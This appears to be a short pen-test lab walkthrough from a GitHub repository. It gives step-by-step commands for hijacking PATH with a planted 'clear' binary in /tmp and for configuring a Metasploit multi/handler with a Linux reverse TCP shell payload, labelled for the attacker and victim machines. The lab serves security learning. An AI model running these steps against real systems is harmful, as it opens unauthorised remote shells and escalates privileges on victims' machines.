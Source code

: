 ```
echo $PATH
```

[3:29]

```
export PATH=/tmp:$PATH
```

```
echo $PATH
```

```
chmod u+x clear
```

```
ls -al | grep clear
```

```
./clear
```

Open mfsconsole

### (ATACKER) (msf6) 

```
search multi handler
```

Use 5 or exploit/multi/handler

```
set lhost 192.168.122.209
```

```
set lport 61775
```

```
show payload
```


```
set payload linux/x64/shell/reverse_tcp
```

```
show options 
```
(To see if payload is set properly)


```
run
```

### (VICTIM)
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/1cd2315e-e9c8-4360-b280-9b31903f7eb3)
```
chmod u+x clear
```
